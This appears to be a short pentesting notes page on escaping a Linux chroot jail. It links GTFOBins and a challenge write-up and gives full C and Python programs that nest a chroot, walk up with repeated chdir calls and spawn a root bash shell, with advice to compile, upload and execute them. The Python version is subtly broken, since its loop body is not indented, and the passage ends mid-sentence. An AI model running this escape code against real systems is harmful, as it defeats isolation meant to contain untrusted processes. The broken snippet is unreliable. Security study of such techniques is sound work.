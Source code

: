 ```yaml
---
title: "Chroot Jailbreaking"
date: 2024-11-20
draft: false
summary: "Some of technique to break out of the chroot's jail"
tags: ["jailbreak"]
layoutBackgroundBlur: true
---
```



#### 1 - GTFO Bins 

List of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

[GTFOBins](https://gtfobins.github.io/)

#### 2 - Performing Chroot inside chroot jail


Description: Need to be root inside chroot to escape from it by **creating another chroot**. Because 2 chroot cannot coexist (in Linux). So when create a folder and then create a new chroot inside it, will you pop out of the jail and be able to read file in fs. 

Challenge example: [Challenge](https://blog.pentesteracademy.com/privilege-escalation-breaking-out-of-chroot-jail-927a08df5c28) 



gcc available, so write a C file to perform a chroot and pop out of chrooted enviroment. We need to using C to compile **chroot** because normally **chroot binary** is not available in chrooted enviroment. **Compile**, **upload**, **execute** is recommended.

```cpp=
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
The above program will:

